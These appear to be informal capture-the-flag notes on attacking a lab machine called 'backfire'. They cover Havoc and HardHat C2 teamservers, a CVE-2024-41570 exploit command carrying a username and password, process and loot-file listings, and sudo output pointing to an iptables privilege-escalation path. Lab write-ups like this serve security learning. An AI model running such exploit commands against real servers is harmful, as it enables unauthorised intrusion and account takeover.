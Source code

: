 ```yaml
---

---
```

___

# User

Disable TLS for Websocket management port 40056, so I can prove that
sergej is not doing any work
Management port only allows local connections (we use ssh forwarding) so 
this will not compromize our teamserver

*there should b websocket connection here*

there is a havoc C2 running on the machine

Havoc teamserver 
havoc client

client is used to connect to teamserver

beacons go to teamserver


both port 8000 and 443 are using HTTP/1.1


port 443 could be the listener for the C2 that would make sense but being proxied by nginx??? not sure

can I smuggle HTTP requests and reach the teamserver? the websocket/teamserver


*This command worked with the CVE*
```
python3 CVE-2024-41570.py -t https://backfire.htb:443 --ip 127.0.0.1 -p 40056 -U 'sergej' -P '1w4nt2sw1tch2h4rdh4tc2'
```


```
sergej      7020  3.5  6.7 274271308 268284 ?    Ssl  16:30   0:09 /home/sergej/.dotnet/dotnet run --project HardHatC2Client --configuration Release
sergej      7097  1.5  3.2 274195056 128564 ?    Sl   16:30   0:03  _ /home/sergej/HardHatC2/HardHatC2Client/bin/Release/net7.0/HardHatC2Client
sergej      7021  1.6  6.4 274255728 255100 ?    Ssl  16:30   0:04 /home/sergej/.dotnet/dotnet run --project TeamServer --configuration Release
home/sergej/HardHatC2/TeamServer/bin/Release/net7.0/TeamServer0:02  _ /--More--(26%)
ilya        7511  4.0  0.5 1614172 20876 ?       Ssl  16:34   0:00 /home/ilya/Havoc/havoc server --profile /home/ilya/files/havoc.yaotl
  └─(Caps) 0x0000000000000400=cap_net_bind_service
```


hardhat is running as sergej

127.0.1.1	backfire.backfire.htb	backfire

```
/home/ilya/Havoc/data/loot/2025.08.13._16:34:01/teamserver.log
/home/ilya/Havoc/data/loot/2025.08.13._16:34:01/listener/DemonListener/server.key
server.crt   voc/data/loot/2025.08.13._16:34:01/listener/DemonListener/--More--(92%)
/home/ilya/Havoc/data/loot/2025.08.13._16:32:01/teamserver.log
/home/ilya/Havoc/data/loot/2025.08.13._16:32:01/listener/DemonListener/server.key
/home/ilya/Havoc/data/loot/2025.08.13._16:32:01/listener/DemonListener/server.crt
/home/ilya/Havoc/data/server.key
/home/ilya/Havoc/data/server.cert
/home/ilya/Havoc/data/teamserver.db
```

/home/ilya/Havoc/data/teamserver.db

theres another CVE for hardhat 


# Root

*got sergej*

sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save